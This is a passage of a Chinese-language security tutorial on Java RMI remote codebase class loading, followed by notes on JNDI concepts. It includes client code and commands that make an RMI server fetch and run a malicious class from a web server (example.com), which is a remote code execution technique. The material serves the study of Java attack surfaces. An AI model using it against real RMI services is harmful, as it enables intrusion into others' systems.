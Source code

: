 |     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>javac *.java<br>java -Djava.rmi.server.hostname=10.28.178.250 -Djava.rmi.server.useCodebaseOnly=false -Djava.security.policy=client.policy RemoteRMIServer<br>``` |

RMIClient.java:

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>``` | ```java<br>import java.rmi.Naming;<br>import java.util.List;<br>import java.util.ArrayList;<br>import java.io.Serializable;<br>public class RMIClient implements Serializable {<br>    public class Payload extends ArrayList<Integer> {}<br>    public void lookup() throws Exception {<br>        ICalc r = (ICalc)<br>Naming.lookup("rmi://10.28.178.250:1099/refObj");<br>        List<Integer> li = new Payload();<br>        li.add(3);<br>        li.add(4);<br>        System.out.println(r.sum(li));<br>    }<br>    public static void main(String[] args) throws Exception {<br>        new RMIClient().lookup();<br>} }<br>``` |

这个 Client 需要在另一个位置运行，需要让 RMI Server 在本地 CLASSPATH 里找不到类，才会去加载 codebase 中的类，所以不能将 RMIClient.java 放在 RMI Server 所在的目录中。

运行 RMIClient：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>java -Djava.rmi.server.useCodebaseOnly=false -Djava.rmi.server.codebase=http://example.com/ RMIClient<br>``` |

只需要编译一个恶意类，将其 class 文件放置在 Web 服务器的 `/RMIClient$Payload.class` 即可。

## [](#2-jndi)2 JNDI

JNDI (Java Naming and Directory Interface) ，包括 Naming Service 和 Directory Service。JNDI 是 Java API，**允许客户端通过名称发现和查找数据、对象**。这些对象可以存储在不同的命名或目录服务中，例如远程方法调用（RMI），公共对象请求代理体系结构（CORBA），轻型目录访问协议（LDAP）或域名服务（DNS）。

### [](#21-jndi-%E7%BB%84%E6%88%90)2.1 JNDI 组成

-   Nameing Service

命名服务，命名服务将命名名称和对象进行关联，提供通过名称找到对象的操作

-   Name

名称，要在命名系统中查找对象，需要提供对象的名称

-   Binding

绑定，一个名称和一个对象的关链称为一个绑定

-   Reference

引用，在一些命名服务系统中，系统并不是直接将对象存储在系统中，而是保持对象的引用

-   上下文

上下文，一个上下文是一系列名称和对象的绑定的集合

## [](#%E5%8F%82%E8%80%83)参考

[Java 中 RMI、JNDI、LDAP、JRMP、JMX、JMS 那些事儿](https://paper.seebug.org/1091/)

[phith0n Java 漫谈系列](https://wx.zsxq.com/dweb2/index/group/2212251881)
